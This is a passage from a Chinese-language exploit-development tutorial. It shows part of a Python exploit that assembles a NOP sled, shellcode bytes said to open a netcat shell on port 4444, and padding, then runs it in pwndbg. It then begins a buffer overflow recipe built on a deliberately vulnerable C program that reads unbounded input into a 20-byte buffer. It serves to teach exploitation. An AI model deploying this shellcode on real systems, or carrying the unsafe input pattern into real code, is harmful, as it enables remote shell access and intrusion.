 ```py
buf += "\xc9\xb1\x18\x31\x6e\x13\x03\x6e\x13\x83\xee\xa9\x05" 
buf += "\xe7\xba\x53\x92\xc5\xbb\xd6\xe2\xa2\xbd\xe9\x22\xfa" 
buf += "\xc3\xc4\x23\xca\x18\x21\xc0\x7e\xdc\x9e\x6d\x83\x6b" 
buf += "\xc1\xc2\xe5\xa6\x81\x78\xb4\x6a\xe9\x7c\x48\x9a\xb5" 
buf += "\xea\x58\xcd\x15\x62\xb9\x87\xf3\x2c\xf7\xd8\x72\x8d" 
buf += "\x03\x6a\x80\xbe\x6a\x41\x08\xfd\xc2\x3f\xc5\x82\xb0" 
buf += "\x99\xbf\xbd\xee\xd4\xbf\x8b\x77\x1f\xd7\x24\xa7\xac" 
buf += "\x4f\x53\x98\x30\xe6\xcd\x6f\x57\xa8\x42\xf9\x79\xf8" 
buf += "\x6e\x34\xf9"  
postfix = 'X' *(250 - len(buf))  
print (w1 + w2 + w3 + w4 + form + nopsled + buf + postfix) 
```

我们添加了一个后缀，使注入字符的总数保持恒定。

1.  现在用有效载荷运行应用程序：

```py
pwndbg> run $(./exp2.py)    
```

1.  现在尝试使用`nc`连接作为 shell 代码并打开端口`4444`，然后尝试运行以下命令：

![](img/00126.jpeg)

我们可以在调试器中看到这些细节：

![](img/00127.jpeg)

# 缓冲区溢出

缓冲区溢出可能导致程序崩溃或泄露私人信息。在运行程序的情况下，缓冲区可以被视为计算机主内存中具有特定边界的部分，因此基本上访问分配的内存空间之外的任何缓冲区。

由于变量存储在堆栈/堆中，访问这个边界之外的任何内容可能导致读/写其他变量的一些字节。但是通过更好的理解，我们可以执行一些攻击。

# 如何做...

按照以下步骤在 Linux 环境中生成缓冲区溢出攻击的利用代码：

1.  我们必须为测试创建一个有漏洞的应用程序。创建一个`bof.c`文件并添加以下代码：

```py
#include <stdio.h>  
void secretFunction() 
{ 
printf("Congratulations!\n"); 
printf("You have entered in the secret function!\n"); 
}  
void echo() 
{ 
char buffer[20];  
printf("Enter some text:\n"); 
scanf("%s", buffer); 
printf("You entered: %s\n", buffer); 
}  
int main() 
{ 
echo(); 
return 0; 
} 
```
